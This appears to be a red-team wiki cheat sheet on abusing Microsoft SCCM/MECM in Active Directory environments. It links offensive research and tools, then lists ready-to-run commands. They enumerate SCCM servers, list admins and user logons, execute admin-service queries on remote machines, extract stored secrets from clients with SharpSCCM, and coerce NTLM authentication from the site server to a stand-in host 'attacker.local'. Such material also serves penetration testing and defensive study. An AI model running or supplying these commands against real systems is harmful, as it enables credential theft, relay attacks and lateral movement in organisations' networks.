 ```yaml
---
description: System Center Configuration Manager / Microsoft Endpoint Configuration Manager
---
```


# SCCM Abuse

- [https://www.thehacker.recipes/ad/movement/sccm-mecm](https://www.thehacker.recipes/ad/movement/sccm-mecm)
- [https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)
- [https://www.hub.trimarcsecurity.com/post/push-comes-to-shove-exploring-the-attack-surface-of-sccm-client-push-accounts](https://www.hub.trimarcsecurity.com/post/push-comes-to-shove-exploring-the-attack-surface-of-sccm-client-push-accounts)
- [https://www.securesystems.de/blog/active-directory-spotlight-attacking-the-microsoft-configuration-manager/](https://www.securesystems.de/blog/active-directory-spotlight-attacking-the-microsoft-configuration-manager/)
- [https://http418infosec.com/offensive-sccm-summary](https://http418infosec.com/offensive-sccm-summary)

{% embed url="https://github.com/subat0mik/Misconfiguration-Manager/blob/main/README.md#sccm-attack-matrix" caption="Misconfiguration Manager / SCCM Attack Matrix" %}




## Enumeration

Look for CcmExec.exe processes:

```
Cmd > tasklist | findstr CcmExec
```

Search for SCCM servers in LDAP:

```
PV3 > Get-DomainComputer -LDAPFilter "(&(objectClass=computer)(cn=*sccm*))" | select -ExpandProperty dnsHostName
PV3 > Get-DomainComputer | ? {$_.Name -like "*sccm*"} | select -ExpandProperty dnsHostName
```

## VNC-like Remote Control (CmRcViewer Abuse)

- [https://www.netero1010-securitylab.com/red-team/abuse-sccm-remote-control-as-native-vnc](https://www.netero1010-securitylab.com/red-team/abuse-sccm-remote-control-as-native-vnc)
- [https://github.com/netero1010/SCCMVNC](https://github.com/netero1010/SCCMVNC)




## Tools



### MalSCCM

- [https://labs.nettitude.com/blog/introducing-malsccm/](https://labs.nettitude.com/blog/introducing-malsccm/)
- [https://github.com/nettitude/MalSCCM](https://github.com/nettitude/MalSCCM)



### sccmwtf

- [https://blog.xpnsec.com/unobfuscating-network-access-accounts/](https://blog.xpnsec.com/unobfuscating-network-access-accounts/)
- [https://github.com/xpn/sccmwtf](https://github.com/xpn/sccmwtf)



### SharpSCCM

- [https://github.com/Mayyhem/SharpSCCM](https://github.com/Mayyhem/SharpSCCM)
- [https://www.guidepointsecurity.com/blog/sccm-exploitation-evading-defenses-and-moving-laterally-with-sccm-application-deployment/](https://www.guidepointsecurity.com/blog/sccm-exploitation-evading-defenses-and-moving-laterally-with-sccm-application-deployment/)

Get SMS (Systems Management Server) and SC (Site Code):

```
Cmd > SharpSCCM.exe local site-info
```

List SCCM admins:

```
Cmd > SharpSCCM.exe get admins -sms <SMS> -sc <SC>
```

List user latest logons (automated in [sccmhound](https://github.com/CrowdStrike/sccmhound)):

```
Cmd > SharpSCCM.exe get class-instances -sms <SMS> -sc <SC> SMS_R_System -p Name -p DistinguishedName -p IPAddresses -p LastLogonUserDomain -p LastLogonUserName -p LastLogonTimestamp -w "LastLogonUserName LIKE '%snovvcrash%'"
Cmd > SharpSCCM.exe get devices -p Name -p DistinguishedName -p IPAddresses -p LastLogonUserDomain -p LastLogonUserName -p LastLogonTimestamp -u snovvcrash@megacorp.local
```

Get resource (server) ID:

```
Cmd > SharpSCCM.exe get resource-id -sms <SMS> -sc <SC> -d <RESOURCE>
```

Execute WMI command on a resource:

```
Cmd > SharpSCCM.exe invoke admin-service -sms <SMS> -sc <SC> -q "EventLog('Security',4h) | where EventID == 4624 | order by DateTime desc" -r <ID>
```

Grab secrets from SCCM client (locally):

```
Cmd > SharpSCCM.exe local secrets -m disk
```

Coerce authentication from SCCM server (remotely):

```
Cmd > SharpSCCM.exe invoke client-push -t attacker.local
```
